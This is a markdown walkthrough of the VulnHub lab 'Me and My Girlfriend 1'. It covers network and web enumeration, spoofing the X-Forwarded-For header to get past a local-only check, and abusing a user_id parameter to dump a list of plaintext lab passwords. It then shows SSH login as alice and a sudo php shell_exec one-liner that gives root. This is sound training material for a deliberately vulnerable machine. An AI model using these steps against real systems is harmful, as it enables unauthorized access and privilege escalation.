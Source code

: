 # Walkthrough: [Me and My Girlfriend 1](https://www.vulnhub.com/entry/me-and-my-girlfriend-1,409/)
## Video Guide: [Youtube link](https://www.youtube.com/watch?v=clennMZ4rco)
## Security Report: [Document link](https://github.com/christosavramis/Vunhub-Solotions/blob/master/Me%20and%20My%20Girlfriend%201/Me%20and%20my%20Girlfriend%20Security%20Report.pdf)

## Table of Contents

- [Enumeration](#enumeration)
- [Penetration](#penetration)
- [Privilege Escelation](#privilege-escelation)

## Enumeration 
- VM IP: `sudo netdiscover`

	* `VMWare 192.168.0.14`
	
- VM info: `nmap -A -T4 -v 192.168.0.14`

	* <pre>
	  22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
	  80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
	  </pre>
	  
- web Server Directory: `dirb -w http://192.168.0.14`

	* <pre>
	  http://192.168.0.14/index.php
	  http://192.168.0.14/misc/process.php
	  http://192.168.0.14/config/config.php
	  http://192.168.0.14/heyhoo.txt
	  </pre>

## Penetration
- *index.php* requires local machine access
- Header capture/info with **Fiddler**
- Customize header with a browser extension(simply add `X-Forwarded-For: 0.0.0.0`)
- Local access granted 
- Register page: http://192.168.0.14/index.php?page=register
- Login page: http://192.168.0.14/index.php?page=login
- Profile page: http://192.168.0.14/index.php?page=profile&user_id=13
- `form action="#"` -> POSTS data on index.php?page=profile
- *user_id* allows to get all the name,uname,pass values 
- uname:pass list 
	* <pre>
	  1.eweuhtandingan:skuyatuh
	  2.aingmaung:qwerty!!!
	  3.sundatea:indONEsia
	  4.sedihaingmah:cedihhihihi
	  5.alice:4lic3  <--------------- Alice's credentials
	  6.abdikasepak:dorrrrr
	  </pre>
- `ssh 192.168.1.13 -l alice`
- Login in and capture **first flag**
		  
## Privilege Escelation
- `sudo -l`
	* Alice has root access on /usr/bin/php
- `sudo php -r 'shell_exec("sudo /bin/bash -i 1>&0");'`
- Root access granted
- `cd /root && cat flag*` and capture the **second flag**






